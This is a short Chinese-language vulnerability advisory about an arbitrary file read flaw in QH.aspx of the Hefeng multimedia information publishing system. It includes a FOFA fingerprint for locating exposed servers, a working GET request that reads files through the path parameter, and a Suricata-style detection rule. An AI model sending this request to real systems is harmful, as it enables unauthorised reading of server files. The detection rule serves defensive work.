

# 和丰多媒体信息发布系统QH.aspx存在任意文件读取漏洞

和丰多媒体信息发布系统QH.aspx存在任意文件读取漏洞

# 影响版本

当前已发所有版本

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   icon\_hash\=-16307381

**POC/EXP：**

**step1**  任意文件读取

```
GET /QH.aspx?responderId=Css&path=/QH.aspx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/156.0.0.0 Safari/537.36


```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"和丰多媒体信息发布系统 - QH.aspx path 任意文件读取漏洞";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/QH.aspx"; fast_pattern;
        content:"responderId="; nocase; distance:0;
        content:"path="; nocase; distance:0;
    metadata:
        service http,
        affected_product "和丰多媒体信息发布系统",
        vulnerability_type "Arbitrary File Read",
        severity "high";
    classtype:web-application-attack;
    sid:1000821;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
